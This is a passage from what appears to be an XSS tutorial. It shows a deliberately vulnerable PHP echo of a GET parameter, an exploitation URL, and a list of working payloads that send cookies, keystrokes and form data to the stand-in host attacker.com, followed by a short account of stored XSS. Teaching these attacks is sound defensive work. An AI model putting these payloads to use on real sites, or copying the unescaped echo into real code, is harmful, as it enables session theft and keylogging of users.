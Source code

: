 #### Example Vulnerable Code
```php
<?php
// Vulnerable PHP code
$search = $_GET['search'];
echo "You searched for: " . $search;
?>
```

#### Exploitation Example
```html
<!-- Original URL -->
https://vulnerable-site.com/search.php?search=test

<!-- Malicious URL -->
https://vulnerable-site.com/search.php?search=<script>alert('XSS')</script>

<!-- Server Response -->
You searched for: <script>alert('XSS')</script>
```

#### Advanced Reflected XSS Payloads
```javascript
// Basic alert
<script>alert('XSS')</script>

// Cookie stealing
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>

// Session hijacking
<script>fetch('http://attacker.com/steal.php', {method:'POST', body:'cookie='+document.cookie})</script>

// Keylogger
<script>document.addEventListener('keypress', function(e) { fetch('http://attacker.com/keylog.php?key='+e.key); });</script>

// Form hijacking
<script>document.forms[0].action='http://attacker.com/steal.php';</script>
```

### 2. 💾 Stored XSS (Persistent)

The most dangerous type where malicious script is permanently stored on the target server (database, message forum, visitor log, comment field, etc.).

#### How Stored XSS Works
```
1. Attacker submits malicious script to vulnerable application
2. Application stores the script in database/file system
3. When other users view the affected page
4. Malicious script executes in their browsers
5. Attacker gains access to multiple victims' sessions
```
